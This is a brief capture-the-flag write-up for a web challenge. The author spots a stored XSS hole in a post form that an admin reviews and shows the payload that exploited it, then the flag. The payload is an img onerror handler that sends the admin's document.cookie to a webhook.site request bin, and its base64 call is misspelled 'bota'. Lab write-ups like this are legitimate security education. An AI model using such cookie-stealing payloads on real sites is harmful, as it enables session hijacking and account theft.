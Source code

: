# Approach
- Upon first glance, we see that the target website `https://govagriculture.web.ctfcompetition.com/` provides a form submission area, and the admin page. However, the admin page link redirects user back to the home page.
- When I tried to submit a test post, I was given the following message "Your post was submitted for review. Administrator will take a look shortly". This hints to an XSS vulnerability that require us to steal the cookie of the admin.
- To achieve that, I found an online HTTP request bin, and used that link to build the following exploit:
```javascript
<img src =asdf onerror="$.get('https://webhook.site/****'+ bota(document.cookie))">
```
- Upon inspecting the HTTP request sent to the request bin, I was able to see the flag
# Flag
CTF{8aaa2f34b392b415601804c2f5f0f24e}
